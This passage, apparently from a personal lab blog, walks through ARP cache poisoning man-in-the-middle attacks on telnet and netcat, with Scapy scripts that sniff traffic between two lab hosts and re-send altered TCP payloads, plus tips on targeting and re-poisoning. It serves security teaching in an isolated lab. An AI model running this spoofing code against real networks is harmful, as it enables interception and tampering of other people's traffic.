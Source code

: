 ```python
                send(newpkt / Raw(load = newdata), verbose=0)
        else:
            send(newpkt, verbose=0)
    elif pkt[IP].src == hostB and pkt[IP].dst == hostA:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)
        
        # Check for payload and replace
        if pkt[TCP].payload:
            data = (pkt[TCP].payload.load).decode()
            newdata = data
            send(newpkt / Raw(load = data), verbose=0)
        else:
            send(newpkt, verbose=0)
                      
                
if __name__ == '__main__':
    main()
```

***mitm attack***

![telnet-mitm](https://github.com/iukadike/blog/assets/58455326/ac510d13-36c4-4aa4-8912-02f16e0c57c8)

##### side notes:
- Though I made use of arp gratuitous messages during the attack, it should be used sparingly as every host on the network will receive the message and update its arp cache accordingly.
  - A better approach is to use arp replies that target the specific hosts you want to attack.
- Also, the re-ARP time I chose was too much, as such the fake entries would get replaced from time to time; a smaller time would be ideal.

<br>

###  MITM Attack on Netcat using ARP Cache Poisoning
Unlike the telnet MITM attack where the spoofing happens one-way, in this attack, the spoofing happens both ways.

```python
#!/usr/bin/env python3
import re
from scapy.all import *

iface_ = 'eth0'
hostA = '10.9.0.5'  #IP address for host A
hostB = '10.9.0.6'  #IP address for host A
port = '9090'       #netcat port

def main():   
    filter_ = f'tcp port {port} && (not ether src 02:42:0a:09:00:69)'
    sniff(iface = iface_, filter = filter_, prn = spoof_pkt)
    
def spoof_pkt(pkt):
    if pkt[IP].src == hostA and pkt[IP].dst == hostB:
        newpkt = IP(bytes(pkt[IP]))
        del(newpkt.chksum)
        del(newpkt[TCP].payload)
        del(newpkt[TCP].chksum)
        
        # Check for payload and replace first occurence of my name with 'a'
        if pkt[TCP].payload:
            data = (pkt[TCP].payload.load).decode().lower()
            newdata = re.sub('ifeanyi', 'aaaaaaa', data, 1)
```